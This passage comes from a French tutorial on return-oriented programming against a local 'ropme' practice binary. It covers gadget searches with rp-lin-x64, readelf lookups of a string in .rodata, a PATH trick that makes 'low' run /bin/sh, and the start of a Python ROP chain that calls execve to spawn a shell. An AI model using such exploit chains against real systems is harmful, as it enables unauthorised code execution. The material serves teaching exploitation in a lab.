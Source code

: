     root@0xEX75:~/rop# rp-lin-x64 -f rop -r 1 --unique | grep "pop ecx"
    0x080df4d9: pop ecx ; ret  ;  (2 found)
    0x0805c503: pop ecx ; retn 0xFFFE ;  (1 found)
    
On continue à capturer les instructions, donc récupérons l'instruction `0x080df4d9: pop ecx ; ret` que nous mettrons `0` dans le registre donc `NULL`.

    root@0xEX75:~/rop# rp-lin-x64 -f rop -r 1 --unique | grep "pop edx"
    0x0806f1eb: pop edx ; ret  ;  (2 found)

Il manque un élement très important, c'est une instruction qui nous permettra d'exécuter notre instruction (ou bien notre fonction), l'instruction se nomme `int 0x80`.

    root@0xEX75:~/rop# rp-lin-x64 -f rop -r 1 --unique | grep "int 0x80"
    0x0806cdf3: add byte [eax], al ; int 0x80 ;  (3 found)
    0x0806cdf5: int 0x80 ;  (8 found)
    0x0806f7f0: int 0x80 ; ret  ;  (1 found)
    0x0806cdf0: mov eax, 0x00000001 ; int 0x80 ;  (1 found)
    0x0807ae09: mov eax, 0x00000077 ; int 0x80 ;  (1 found)
    0x0807ae00: mov eax, 0x000000AD ; int 0x80 ;  (1 found)
    0x0806f7ef: nop  ; int 0x80 ;  (1 found)
    0x0806cdef: or byte [eax+0x00000001], bh ; int 0x80 ;  (1 found)
    0x080b79a7: push es ; int 0x80 ;  (1 found)

Avant ça, nous allons créer notre petit script bash, qui va démarrer `/bin/sh`, nous allons utiliser `readelf` pour trouver le symbole, chaque symbole étant séparé par un caractère null-byte.

    root@0xEX75:~/rop# readelf -x .rodata ./ropme | less
    0x080bc560 64656376 745f7061 72746961 6c000000 decvt_partial...
    0x080bc570 5f494f5f 7766696c 655f756e 64657266 _IO_wfile_underf
    0x080bc580 6c6f7700 00000000 00000000 00000000 low............. # LÀ !
    0x080bc590 00000000 00000000 00000000 00000000 ................

    root@0xEX75:~/rop# echo "/bin/sh" > low
    root@0xEX75:~/rop# chmod +x low
    root@0xEX75:~/rop# export PATH=:$PATH

Nous sommes prêt maintenant pour la création de notre programme pour `pop` le shell, le script n'est pas très compliquer, donc pas de panique.

    #coding:utf-8

    import sys
    import struct

    class rop_exploit(object):
            def __init__(self, padding=20):
                    self.padding = padding

            def rop_gadgets(self):
                    rop_gadget = [
                            struct.pack('<L', 0x080b8c96), # pop eax; ret
                            struct.pack('<L', 0x0000000b), # eax (11)
                            struct.pack('<L', 0x080df4d9), # pop ecx ; ret
                            struct.pack('<L', 0x00000000), # add 0
                            struct.pack('<L', 0x080481c9), # pop ebx ; ret
                            struct.pack('<L', 0x080bc580), # program 'low'
                            struct.pack('<L', 0x0806f1eb), # pop edx; ret
                            struct.pack('<L', 0x00000000), # add 0
                            struct.pack('<L', 0x0806cdf5), # int 0x80, call function
                    ]
